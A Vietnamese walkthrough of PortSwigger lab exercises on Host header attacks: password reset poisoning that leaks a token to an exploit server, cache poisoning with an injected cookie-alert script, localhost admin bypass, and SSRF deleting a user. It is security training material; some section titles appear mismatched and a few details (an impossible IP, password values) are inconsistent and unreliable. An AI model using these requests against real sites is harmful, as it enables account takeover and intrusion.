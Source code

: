 # 1. Basic password reset poisoning
Dùng chức năng forgot password với tham số `username=wiener` rồi vào Email Client kiểm tra, thấy URL để reset password là `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=R9Qgu9I1N6a2aN3P3siCSAQoNtJkOu2k`.

Thử thay đổi header `Host: test.com` rồi gửi lại, thì kết quả URL reset trở thành `https://test.com/forgot-password?temp-forgot-password-token=1kbaGZSQ0CofoeyPFQKHXUasCLvaewHH`. Như vậy website cấu hình URL reset password sử dụng Host header. 

Ta thay đổi header `Host: exploit-0a08009d04bfdf7bc0a03a1a018100ea.exploit-server.net` và chỉnh tham số `username=carlos`. Sau khi submit, vào Access Log kiểm tra thì thấy có request gửi đến chứa một reset password token:
```
10.0.4.223      2023-03-06 02:02:50 +0000 "GET /forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.119 Safari/537.36"
```
Đó là reset token của user carlos. Ta truy cập `https://0a07003004a3df1ec0903b3f0007004e.web-security-academy.net/forgot-password?temp-forgot-password-token=PF9X5fUYYSTSeNjUjRK4Dxhrtw5TGKQO` rồi tiến hành đổi mật khẩu thành `hello`, sau đó đăng nhập với credentials `carlos:password`, kết quả thành công. 

# 2. Host header authentication bypass
Trong Home page có một đoạn tracking script:
```
<script type="text/javascript" src="//0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net/resources/js/tracking.js">
```
Ta thử thêm một duplicate Host header vào trong request sử dụng Burp Repeater:
```
GET / HTTP/1.1
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: test.com
```
Khi đó, domain name trong tracking script cũng trở thành `test.com`. Để ý rằng website có sử dụng cache, và khi ta thay đổi Host header thứ 2 thì cache vẫn trả về trạng thái "hit". Như vậy ta có thể exploit web cache poisoning như sau:

Gửi request `GET /` với header
```
Host: 0ad4007504b85e20c0e9721e005e00d9.web-security-academy.net
Host: "></script><script>alert(document.cookie)</script>
```
Submit đến khi response chứa tag script được lưu vào cache. Khi victim truy cập home page, lệnh alert sẽ được thực thi.

Như vậy, bài lab được giải thành công.

# 3. Web cache poisoning via ambiguous requests
Thử vào URL `/admin` thì thấy thông báo "Admin interface only available to local users". 

Bắt request sử dụng Burp Repeater. Khi thay đổi header `Host: localhost` thì ta vẫn có thể truy cập được website, đồng thời "Admin panel" được hiển thị. Từ đó, ta khám phá ra được để delete user carlos thì ta cần gửi request đến `/admin/delete?username=carlos`. Cấu hình request như sau:
```
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
....
```
Sau khi submit, bài lab được giải.

# 4. Routing-based SSRF
Dùng Burp Repeater bắt request đến Home page. Thử thay đổi header `Host: j5pxkiye8gmuytdbybbned2em5svgk.oastify.com`, gửi request rồi vào Burp Collaborator Client kiểm tra thì thấy có request được gửi đến. Như vậy ta có thể thực thi SSRF bằng cách thay đổi Host header.

![image](https://user-images.githubusercontent.com/103978452/223042227-5c76ea65-137f-4f82-8738-bf0a0e154300.png)

Gửi request vào Burp Intruder, thực hiện bruteforce với giá trị của Host header từ 192.168.0.0 đến 192.168.0.255, ta thấy chỉ có thể truy cập được nếu giá trị là 192.268.0.113

![image](https://user-images.githubusercontent.com/103978452/223042476-33db1f5d-599b-40a4-ae33-4011c5535214.png)

Dùng Burp Repeater gửi lại request với header `Host: 192.168.0.113`, ta được chuyển hướng đến URL `/admin`. Dựa trên trang đó, ta biết rằng muốn xóa user carlos thì cần gửi POST request đến `/admin/delete`. Như vậy ta cấu hình một request như sau:

```
POST /admin/delete HTTP/1.1
Host: 192.168.0.113
Content-Type: application/x-www-form-urlencoded
....

csrf=5dcGh6aSE9TEu9v545rRAs7WunnUtpLj&username=carlos
```
Sau khi click submit, bài lab được giải.

# 5. SSRF via flawed request parsing

# 6. Host validation bypass via connection state attack

# 7. Password reset poisoning via dangling markup
